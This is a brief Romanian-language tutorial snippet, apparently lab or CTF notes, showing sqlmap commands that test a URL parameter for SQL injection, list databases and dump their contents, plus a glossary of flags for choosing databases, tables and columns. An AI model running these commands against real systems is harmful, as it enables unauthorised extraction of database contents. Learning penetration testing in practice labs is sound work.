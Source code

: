 ### Exemple
```bash
sqlmap -r sqli-dat.raw --dbms mysql
```

```bash
sqlmap -r sqli-dvwa.raw --dbms mysql --dump --dbs
```

Pentru a vedea daca un parametru este variabel la tipul de SQL injection putem folosi comanda:
```bash
sqlmap -u "http://34.159.168.95:30083/user?id=1"
```
Aici se verifica data parametrul `id` este vulnerabel la SQL injection:
Acum facem listarea la bazelor de date:
```bash
sqlmap -u "http://34.159.168.95:30083/user?id=1" --dbs
```
`--dbs` - lista bazelor de date
`--dump-all` - pentru a scoate toata informatia din bazele de date
`--table` - arata toate tabelele in baza de date
`--colums` - arata toate coloanele dintrun tabel 
`-D` - din care baza de date scoatem informatia
`-T` - specificam tabelul 
`-C` - specificam coloana
